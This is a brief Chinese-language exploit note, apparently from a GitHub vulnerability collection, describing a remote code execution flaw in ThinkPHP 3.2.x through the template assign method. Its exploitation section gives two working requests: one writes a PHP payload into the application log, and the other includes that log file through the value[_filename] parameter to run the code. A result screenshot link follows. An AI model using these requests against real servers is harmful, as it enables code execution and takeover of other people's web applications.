 ### ThinkPHP3.2.x RCE漏洞
简介
模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

利用
```shell
# step1 插入payload到日志
index.php?m=--><?=phpinfo();?>
# step2 包含已插入恶意代码的日志文件
/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_12.log
```
效果
![image](https://user-images.githubusercontent.com/55024146/125297390-c3b5d400-e359-11eb-91f3-36bc92f368be.png)
